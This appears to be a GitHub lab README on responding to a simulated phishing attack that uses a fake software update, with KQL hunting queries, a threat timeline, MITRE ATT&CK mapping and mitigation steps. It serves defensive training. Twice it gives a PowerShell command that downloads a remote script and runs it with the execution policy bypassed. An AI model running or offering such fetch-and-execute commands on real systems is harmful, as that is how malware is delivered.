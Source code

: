

# 🚨 **Incident Response: Phishing via Fake Software Update** 🚨  

<img width="700*500" src="https://github.com/user-attachments/assets/e9d2fd77-dc9f-4faa-a735-925e1d3a25f0" alt="Tor Logo with the onion and a crosshair on it"/>

---

### 🛡️ **Scenario Overview**  
- **Organization**: 🏢 Medium-sized FinTech company.  
- **Threat**: Employees report unusual system behavior after clicking on a suspicious software update notification.  
- **Objective**: Identify the phishing campaign’s scope, mitigate its impact, and strengthen defenses.  

---

### 🌐 **PowerShell Payload (POC)**  

 
📥 **The PowerShell Payload**
Run the PowerShell command below on your VM **after onboarding it to MDE**:
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/TrevinoParker7/Powershell-test-payload-harmless/refs/heads/main/phishingFakeSoftwareUpdate.ps1' -OutFile 'C:\programdata\phishingFakeSoftwareUpdate.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\phishingFakeSoftwareUpdate.ps1
```

https://github.com/TrevinoParker7/Powershell-test-payload-harmless/blob/main/phishingFakeSoftwareUpdate.ps1

---

![Screenshot 2025-01-26 181108](https://github.com/user-attachments/assets/7b9ccc9f-e290-4125-8990-2e2de03d2d45)

![Screenshot 2025-01-26 130233](https://github.com/user-attachments/assets/e154a3c3-0a2f-4748-91af-0cc28bfa73a0)

---
### 💻 **Platforms and Tools Leveraged**  
- **SIEM**: Microsoft Sentinel  
- **Endpoint Protection**: Microsoft Defender for Endpoint  
- **Query Language**: Kusto Query Language (KQL)  
- **Infrastructure**: Windows 10 VMs on Microsoft Azure  

---

## 🕵️‍♂️ **High-Level IoC Discovery Plan**  
**Focus Areas**:  
1️⃣ Check **DeviceFileEvents** for suspicious file activities.  
2️⃣ Check **DeviceProcessEvents** for signs of malicious execution.  
3️⃣ Check **DeviceNetworkEvents** for outgoing connections, especially over known malicious ports.  

---

### 🔍 **KQL Queries**  

**Query: Recent File Events**  
```kql
DeviceFileEvents
| top 50 by Timestamp desc
```

**Query: Network Events**  
```kql
DeviceNetworkEvents
| top 50 by Timestamp desc
```

**Query: Process Events**  
```kql
DeviceProcessEvents
| top 50 by Timestamp desc
```

---

## 📊 **Threat Timeline**  

### 1️⃣ **File Download (Initial Access)**  
- **TTP**: [T1193](https://attack.mitre.org/techniques/T1193) - Spear Phishing Link  
- **Event**: Employees receive a phishing mimicking IT with a link to a "critical software update."  
- **Impact**: The link leads to downloading a PowerShell payload.  

**Relevant Query**:  
```kql
DeviceFileEvents
| where DeviceName == "tphish"
| where FileName endswith "ps1"
| order by Timestamp desc 
```
![Screenshot 2025-01-26 131545](https://github.com/user-attachments/assets/0f60aaaa-fc7c-456e-8680-5a2a3d7ed5db)
---

### 2️⃣ **Process Execution**  
- **TTP**: [T1059.001](https://attack.mitre.org/techniques/T1059/001) - PowerShell Execution  
- **Event**: Malicious PowerShell script execution on victim devices.  
- **Query Used**:  
```kql
let VMName = "tphish";
let specificTime = datetime(2025-01-26T19:01:29.0367754Z);
DeviceProcessEvents
| where Timestamp between ((specificTime - 2m) .. (specificTime + 2m))
| where DeviceName == VMName
| order by Timestamp desc
```

![Screenshot 2025-01-26 133010](https://github.com/user-attachments/assets/31b64c99-ad4f-48c1-b89f-ff5a34d5962f)

---

```kql
DeviceProcessEvents
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "phishingFakeSoftwareUpdate.ps1" or ProcessCommandLine contains "Add-Type -AssemblyName PresentationFramework"
| extend Timestamp = Timestamp, InitiatingProcessAccountName = InitiatingProcessAccountName
| project Timestamp, DeviceName, FileName, ProcessCommandLine, InitiatingProcessAccountName, InitiatingProcessCommandLine
| order by Timestamp desc
```
![Screenshot 2025-01-26 134312](https://github.com/user-attachments/assets/31820b28-e89e-4e42-9ea5-24060e2a7508)

---


### 3️⃣ **Network Connection to C2 Server**  
- **TTP**: [T1071.001](https://attack.mitre.org/techniques/T1071/001) - Web Protocols  
- **Event**: Communication with a C2 server over the internet, potentially exfiltrating credentials.  
- **Query Used**:  
```kql
union DeviceNetworkEvents, DeviceProcessEvents
| where Timestamp > ago(6h)
| where RemoteUrl contains "raw.githubusercontent.com" or InitiatingProcessCommandLine has "phishingFakeSoftwareUpdate.ps1"
| project Timestamp, DeviceName, RemoteUrl, RemoteIP, InitiatingProcessCommandLine, FileName, FolderPath, ActionType
| order by Timestamp desc
```
![Screenshot 2025-01-26 140306](https://github.com/user-attachments/assets/f41a1d4e-246e-4ca1-9053-5a0630777595)

---

### 4️⃣ **Lateral Movement & Credential Dumping**  
- **TTPs**:  
  - [T1210](https://attack.mitre.org/techniques/T1210) - Exploitation of Remote Services  

---

## 🛠️ **Mitigation Steps**  

### 🔒 Containment  
1️⃣ Block the malicious domain on the firewall and DNS servers.  
2️⃣ Disable compromised user accounts and enforce password resets.  
3️⃣ Isolate infected machines from the network.  

### 🧹 Eradication  
1️⃣ Deploy updated antivirus signatures to detect and remove the malware.  
2️⃣ Conduct system-wide scans using EDR tools.  

### 🔄 Recovery  
1️⃣ Restore affected systems from backups.  
2️⃣ Re-enable user access after ensuring systems are clean.  

---

## 🧠 **Post-Incident Improvements**  

### 🚀 Proactive Monitoring  
- Enhanced SIEM rules for detecting phishing emails.  
- Integration of threat intelligence feeds to block new malicious domains.
- Create a Rule to detect this. 

### 📚 User Awareness  
- Mandatory phishing training with simulation tests.  
- Quick-reference phishing awareness guide shared via email.  

---

### 📈 **Mapped TTPs to MITRE ATT&CK Framework**  

| Tactic             | Technique                             | ID        | Example                             |  
|---------------------|---------------------------------------|-----------|-------------------------------------|  
| **Initial Access**  | Spear Phishing Link                  | T1193     | Phishing email with fake update link |  
| **Execution**       | PowerShell Execution                 | T1059.001 | Malicious PowerShell script executed |  
| **Command & Control** | Web Protocols                     | T1071.001 | C2 communication to exfiltrate data |  
| **Credential Access** | Credentials in Files              | T1555.003 | Stolen credentials from payload use |  
| **Lateral Movement**  | Exploitation of Remote Services    | T1210     | Attempts to pivot to other devices  |  

---

### 📥**PowerShell Payload (POC)**  

Run the PowerShell command below on your VM **after onboarding it to MDE**:
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/TrevinoParker7/Powershell-test-payload-harmless/refs/heads/main/phishingFakeSoftwareUpdate.ps1' -OutFile 'C:\programdata\phishingFakeSoftwareUpdate.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\phishingFakeSoftwareUpdate.ps1
```

https://github.com/dessiflomer33/Powershell-test-payload-harmless/blob/main/phishingFakeSoftwareUpdate.ps1

